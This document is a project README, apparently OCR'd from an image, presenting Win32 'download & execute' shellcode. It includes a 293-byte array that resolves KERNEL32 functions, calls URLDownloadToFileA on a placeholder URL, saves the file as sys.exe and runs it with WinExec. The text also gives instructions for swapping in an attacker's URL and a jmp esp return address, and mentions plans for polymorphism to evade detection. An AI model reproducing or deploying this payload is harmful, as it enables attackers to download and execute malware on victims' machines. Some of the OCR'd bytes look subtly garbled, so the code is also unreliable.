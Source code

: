 # Win32ShellCode

**(Very old project I made years ago, still works? in theory)**

This is the 1st version of my download & execute code... it searches the
EXPORT table of KERNEL32
at a given KERNEL BASE.

This code is the smallest I've seen on its class... less than 300 bytes

Can be even smaller? yes... Can be more optimized? yes... That will be done
in future releases.

The Class B of this shellcode will search for the functions in the
**IMPORT** table at a given
base.... for example, inetinfo.exe base is 1000000h, by looking at the
import table there,  you will
never fail executing the shellcode, you'll get always the correct addresses
=)....
Also compression & polymorphism will be implemented.

Attached to this message: The ASM code and a VC++ file to test the
shellcode.............

Note: you have to change the C++ file... put another EIP. the one i'm using
is at shell 32 (call esp or jmp esp)...
I'm using W2k sp1. Also, change the scode and include the url you want.

unsigned char TheExEcutor[293] = {
    0xEB, 0x67, 0x5E, 0x8B, 0xEC, 0x8B, 0x06, 0x66, 0x33, 0xC0, 0x8B, 0xD8,
0x03, 0x40, 0x3C, 0x8B,
    0x40, 0x78, 0x03, 0xC3, 0x8B, 0x78, 0x20, 0x8D, 0x3C, 0x3B, 0x03, 0x1F,
0x33, 0xD2, 0x33, 0xC9,
    0x43, 0x38, 0x13, 0x75, 0x01, 0x41, 0x81, 0x3B, 0x47, 0x65, 0x74, 0x50,
0x75, 0x0B, 0x81, 0x7B,
    0x04, 0x72, 0x6F, 0x63, 0x41, 0x75, 0x02, 0x74, 0x02, 0xEB, 0xE5, 0x50,
0x41, 0x33, 0xC0, 0xB0,
    0x04, 0xF7, 0xE1, 0x8B, 0xC8, 0x58, 0x03, 0xC1, 0x83, 0xC0, 0x24, 0xFF,
0x76, 0x02, 0x66, 0xFF,
    0x30, 0x5B, 0x56, 0x83, 0xC6, 0x04, 0x46, 0x80, 0x3E, 0xFF, 0x75, 0x03,
0x80, 0x36, 0xFF, 0x81,
    0x3E, 0x4B, 0x49, 0x4B, 0x45, 0x75, 0xEF, 0xEB, 0x02, 0xEB, 0x4B, 0x5E,
0x8B, 0xE5, 0x8B, 0x06,
    0x66, 0x33, 0xC0, 0x50, 0x83, 0xC6, 0x04, 0x56, 0x50, 0xFF, 0xD3, 0x83,
0xC6, 0x0D, 0x56, 0xFF,
    0xD0, 0x83, 0xC6, 0x07, 0x56, 0x50, 0xFF, 0xD3, 0x33, 0xC9, 0x51, 0x51,
0x83, 0xC6, 0x13, 0x56,
    0x83, 0xC6, 0x1C, 0x56, 0x51, 0xFF, 0xD0, 0x58, 0x50, 0x83, 0xEE, 0x08,
0x56, 0x50, 0xFF, 0xD3,
    0x33, 0xC9, 0x51, 0x83, 0xEE, 0x14, 0x56, 0xFF, 0xD0, 0x58, 0x83, 0xC6,
0x08, 0x56, 0x50, 0xFF,
    0xD3, 0x33, 0xC9, 0x51, 0xFF, 0xD0, 0xE8, 0x47, 0xFF, 0xFF, 0xFF, 0xFF,
0xFF, 0xE8, 0x77, 0x4C,
    0x6F, 0x61, 0x64, 0x4C, 0x69, 0x62, 0x72, 0x61, 0x72, 0x79, 0x41, 0xFF,
0x55, 0x52, 0x4C, 0x4D,
    0x4F, 0x4E, 0xFF, 0x55, 0x52, 0x4C, 0x44, 0x6F, 0x77, 0x6E, 0x6C, 0x6F,
0x61, 0x64, 0x54, 0x6F,
    0x46, 0x69, 0x6C, 0x65, 0x41, 0xFF, 0x73, 0x79, 0x73, 0x2E, 0x65, 0x78,
0x65, 0xFF, 0x45, 0x78,
    0x69, 0x74, 0x50, 0x72, 0x6F, 0x63, 0x65, 0x73, 0x73, 0xFF, 0x57, 0x69,
0x6E, 0x45, 0x78, 0x65,
    0x63, 0xFF,  "http://box.net/baby.exe";, 0xFF, 0x4B, 0x49, 0x4B, 0x45,
    } ;

  NOTE: SUBSTITUTE THE URL WITH THE ONE YOU WANT, IE. "0x68, 0x74, 0x74,
0x70...." (HTTP...)....

